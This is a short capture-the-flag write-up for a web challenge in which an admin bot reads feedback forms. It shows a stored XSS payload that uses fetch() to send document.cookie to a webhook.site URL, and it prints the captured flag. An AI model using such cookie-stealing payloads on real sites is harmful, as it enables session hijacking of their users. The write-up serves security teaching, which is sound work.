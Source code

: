 ```yaml
---
title: "Your feedback is not appreciated"
description: "RISC intro2web challenge 4"
pubDate: "Aug 26 2025"
heroImage: "/hero/RISC.webp"
tags: ["cyber", "XSS", "ctf", "exploit"]
---
```


###### [Canonical > RISC](https://writeups.urisc.club/web/4_your-feedback_is_not_appreciated/)

## Challenge description

NB: This is the challenge related to the admin bot

Yuri Nocashov has taken a deep interest in customer feedback, and will read all feedback forms submitted!

---

## Approach

So someone is viewing all the feedback, it's very likely this is a client side XSS attack.

Lets create a webhook and attempt to send it something through the feedback form.

If we go to <https://webhook.site> we can easily get a public webhook open.

### Javascript XSS implementation

```html
<script>
	fetch(`https://webhook.site/our-webhook-id?${document.cookie}`);
</script>
```

After sending the script as feedback, we can see an incoming requests to `https://webhook.site/our-webhook-id?flag=RISC{ex_ess_ess_is_easy_as_1_2_3_e78c1cda77704a884357eeffedb3d3e7}`

Our flag is:

```
RISC{ex_ess_ess_is_easy_as_1_2_3_e78c1cda77704a884357eeffedb3d3e7}
```
